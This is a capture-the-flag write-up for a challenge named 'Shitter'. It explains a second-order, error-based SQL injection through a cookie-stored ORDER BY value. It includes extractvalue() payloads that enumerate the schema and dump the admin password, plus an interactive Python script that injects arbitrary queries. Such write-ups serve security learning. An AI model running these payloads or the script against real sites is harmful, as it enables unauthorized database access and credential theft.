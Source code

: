 # Shitter writeup
Writeup by [@melihkaanyldz](https://www.twitter.com/melihkaanyldz) , thanks to [@ATeamJKR](https://www.twitter.com/ATeamJKR) for his helps

After registering and logging in, server was setting our cookie to be 

```
session=eyJvcmRlciI6eyIgYiI6ImNHOXpkRjlqY21WaGRHbHZibDkwYVcxbElHRnpZdz09In0sInVzZXIiOiJhIn0.XfUEOg.Qvi5O5I10xdtZwQ5YwXcxzWeGyY

 {
    "order": {
        " b": "cG9zdF9jcmVhdGlvbl90aW1lIGFzYw=="  #post_creation_time asc
    },
    "user": "testreg"
}
```

We could update the order part of our cookie with sending "order" param to /settings endpoint

```
session=eyJvcmRlciI6InBvc3RfY3JlYXRpb25fdGltZSBBU0MiLCJ1c2VyIjoibW9ycGgzIn0.XfeMXw.6rcWVQQ_DMlau7rEoiDPfhQKlg4

{
  "order": "post_creation_time ASC",
  "user": "morph3"
}
```
After some more enumeration and error messages, I realized that the value that we set for "order" was put in a sql query

`SELECT * FROM posts ORDER BY $input LIMIT 5;`

That means we could simply update the query(our cookie) in settings tab and trigger the sql injection from another endpoint.

At that point I found an unintended path. Server was giving detailed error message n /profile/1 endpoint with our modified cookie.
So that meant I could fetch data and read the output from the error message.

Basically I could handle the query like that
`1,extractvalue(0x0a,concat(0x0a,(YOUR_SQL_QUERY_HERE)))#`


![](db.png)


Server didn't like queries that return more than 1 row, so fetched everything one by one
```sql
--For databases
1,extractvalue(0x0a,concat(0x0a,(SELECT schema_name  FROM information_schema.schemata limit 0,1)))--

--Tables for the current database
order=1,extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database ()limit 0,1)))--

--Columns for a table
1,extractvalue(0x0a,concat(0x0a,(SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users' limit 0,1)))--

--Flag
1,extractvalue(0x0a,concat(0x0a,(select password from users where name='admin' limit 0,1)))--
```

In the ctf I didn't write a script because I wanted to finish it as quick as possible.

![](flag.png)

Flag: `TMHC{Bl1nDSQlS3c0ndorderINJecti0n}`


Here is the automated script
```python
import requests
s = requests.Session()

url = "your_url_here"
data = {
    "name":"morph3",
    "password":"morph3"
}
#r = s.post(url+"register",data=data)
r = s.post(url+"login",data=data)
q = "select password from users where name = 'admin' limit 0,1"
while q != "q":
    data = {
         "order" : "1,extractvalue(0x0a,concat(0x0a,({})))#".format(q)
    }
    r = s.post(url+"settings",data=data)
    r = s.get(url+"profile/1")
    print data
    q = raw_input("~#:")
```